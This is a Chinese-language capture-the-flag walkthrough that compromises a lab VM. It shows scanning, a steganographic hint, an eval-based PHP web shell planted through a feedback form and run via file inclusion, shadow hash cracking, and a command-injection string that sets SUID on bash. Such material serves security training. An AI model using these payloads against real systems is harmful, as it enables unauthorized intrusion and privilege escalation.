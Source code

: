 # 一、信息收集

## 1. 主机发现

首先，使用 `arp-scan` 在 `192.168.205.0/24` 网段中发现目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.142 08:00:27:24:64:43       PCS Systemtechnik GmbH
...
```

确认目标主机IP地址为 `192.168.205.142`。

## 2. 端口扫描

使用 `nmap` 对目标主机进行全端口扫描，识别开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.142
...
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
...
```

扫描结果显示开放了 **22 (SSH)** 和 **80 (HTTP)** 两个端口。我们将Web服务作为主要的攻击入口。

## 3. Web目录与文件发现

访问 `http://192.168.205.142` 是一个“星际商城”的商品反馈页面。使用 `dirsearch` 进行目录爆破，发现多个关键文件。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ dirsearch -u http://192.168.205.142
...
[09:26:07] 200 -    1KB - /admin.php
[09:26:16] 200 -   23KB - /info.php
[09:26:22] 200 -  109B  - /robots.txt
[09:26:25] 301 -  320B  - /uploads  ->  http://192.168.205.142/uploads/
...
```

主要发现：

*   `/admin.php`: 后台登录页面。
*   `/info.php`: 一个 `phpinfo()` 页面，泄露了详细的PHP配置。
*   `/uploads/`: 一个开放目录浏览的上传目录。
*   `/robots.txt`: 存在有趣的信息。

## 4. 信息泄露

查看 `robots.txt` 文件内容，发现一条重要线索。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl http://192.168.205.142/robots.txt
本站的 logo 灵感来自 https://maze-sec.com/special/1/，但我们给它添了点特别的‘味道’！
```

该线索暗示网站的logo图片 `QQ.png` 可能被修改过，含有隐藏信息。

# 二、Web渗透与立足点

## 1. 后台登录

访问 `/admin.php` 是一个管理员登录页面，只需要输入密码。根据主页页脚的客服热线 `400-123-4567`，尝试以此作为密码进行登录，成功进入后台。

## 2. 图像隐写 (盲水印)

根据 `robots.txt` 的提示，我们怀疑logo图片存在隐写。

1. 分别下载目标网站的logo和原始logo。

   ```bash
   wget http://192.168.205.142/QQ.png -O target_logo.png
   wget https://maze-sec.com/img/QQ.png -O original_logo.png
   ```

2. 常规的隐写分析工具均未发现异常。考虑到“味道”这种描述，推测可能是盲水印（Blind Watermark）。

3. 使用盲水印工具进行解密，成功提取出隐藏的水印信息。

   ```bash
   # 克隆工具
   git clone https://github.com/chishaxie/BlindWaterMark.git
   cd BlindWaterMark
   
   # 解码
   python bwmforpy3.py decode target_logo.png original_logo.png wm_extracted.png
   ```

4. 查看提取出的水印图片 `wm_extracted.png`，得到隐藏的目录路径：`/hoshi/`。

![提取出的水印](http://7r1UMPHK.github.io/image/20250810220719846.webp)

## 3. 文件包含与Getshell

1. 访问新发现的路径 `http://192.168.205.142/hoshi/`，发现一个文件 `gift.php`。直接访问该文件返回错误“非法文件名”，这是典型的**文件包含（LFI）**漏洞特征。

2. 通过Fuzz工具 `ffuf` 爆破参数，确定用于文件包含的参数为 `file`。

3. 在 `admin.php` 页面源码中，发现一行隐藏的注释：`<div style="display:none" id="static-tip">[debug] 静态页面已生成</div>`。

4. **攻击链梳理**：

   *   在主页 `/index.php` 的反馈表单中提交PHP Web Shell。
   *   登录后台 `/admin.php`。这个登录行为会触发服务器将在后台生成一个包含所有反馈内容的静态文件 `admin.html`。（通过目录爆破发现）
   *   利用 `gift.php` 的文件包含漏洞去读取这个新生成的 `admin.html`。由于该文件是被PHP引擎包含的，其中的PHP代码将会被执行。

5. **操作步骤**:

   * **步骤一：注入Payload**。在主页的反馈表单中的"您的昵称"输入栏提交以下内容。

     ```php
     <?php eval($_POST['ant']); ?>
     ```

   * **步骤二：触发生成**。访问 `/admin.php` 并使用密码 `400-123-4567` 登录。此时，包含我们Payload的 `admin.html` 文件已经在Web根目录生成。

   * **步骤三：构造LFI URL**。`http://192.168.205.142/hoshi/gift.php?file=admin.html`

   * **步骤四：连接Shell**。使用蚁剑（AntSword）连接上述URL，密码为 `ant`，成功获得 `www-data` 用户的Web Shell。

# 三、权限提升

## 1. 横向移动 (www-data -> welcome)

1. 在 `www-data` shell中，使用 `linpeas.sh` 等脚本进行信息收集。在 `/var/backups/` 目录下发现一个可读的敏感文件 `shadow~`。

2. 读取该文件，获得 `root` 和 `welcome` 用户的密码哈希。

3. 使用 `John the Ripper` 和 `rockyou.txt` 字典对哈希进行破解，得到 `welcome` 用户的密码为 `loveme2`。

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
   └─$ john --wordlist=rockyou.txt hash.txt
   ...
   loveme2          (welcome)     
   ...
   ```

4. 使用 `su` 命令和破解出的密码成功切换到 `welcome` 用户。

## 2. 提权至root (welcome -> root)

1. 在 `welcome` 用户下，使用 `sudo -l` 检查其sudo权限，发现可以无密码以root权限执行一个Python脚本 `/root/12345.py`。

   ```bash
   welcome@hoshi:/tmp$ sudo -l
   ...
   User welcome may run the following commands on hoshi:
       (ALL) NOPASSWD: /usr/bin/python3 /root/12345.py
   ```

2. 执行该脚本，它会在 `12345` 端口上开启一个自定义的配置shell。

3. 在Kali攻击机上，使用 `ncat` 连接该服务。通过 `help` 命令发现 `exec_cmd` 指令。测试发现 `|;&<>` 等字符被过滤，但 `&&` 可用于命令拼接。

4. 利用命令注入，为 `/bin/bash` 添加SUID权限。

   ```bash
   conf> exec_cmd id'&&chmod +s /bin/bash&&'
   uid=0(root) gid=0(root) groups=0(root)
   ```

5. 回到靶机shell，执行 `bash -p`，成功获得root权限的shell。

   ```bash
   welcome@hoshi:/opt$ bash -p
   bash-5.0# id
   uid=1000(welcome) gid=1000(welcome) euid=0(root) egid=0(root) groups=0(root),1000(welcome)
   ```

# 四、获取Flag

现在拥有了root权限，可以读取所有的Flag。

```bash
bash-5.0# cat /root/root.txt
flag{root-5de923e57adefd6a1fd53a6705ad6486}

bash-5.0# cat /home/welcome/user.txt
flag{user-73b671a5f913d849d405784a428288dd}
```

所有Flag均已找到，渗透测试完成。